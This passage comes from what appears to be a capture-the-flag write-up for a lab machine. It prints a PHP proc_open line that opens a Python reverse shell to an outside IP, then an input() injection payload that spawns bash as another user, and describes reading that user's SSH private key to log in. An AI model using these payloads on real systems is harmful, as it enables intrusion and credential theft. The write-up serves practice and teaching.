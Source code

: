 ```php
$process = proc_open("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.18\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'",$descriptorspec,$pipes)

?> 
```
![Revshell](./revshell.png)
> _Figure 8_: **Receivering a reverse connection as user 'www-data'.**

# User Flag

After enumeration a bit I read the contents of the file on `/home/developer/dev/siteisup_test.py`:
```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
    print "Website is up"
else:
    print "Website is down"
```

And doing some research I found out that is possible to execute the following code on the unsanitized _input_ function: `__import__("os").system("/bin/bash")`.

![developer access](./python_input_vuln.png)
> _Figure 9_: **Executing code as user 'developer'.**

But when I tried to read the _user.txt_ file it returns a **"Permissmion denied"** error, whatever I was able to read the contents of the __'.ssh/id_rsa'__ file as demostrated on __Figure 10__ , connect to the SSH as developer and finally read the contents of the _user.txt_ flag.
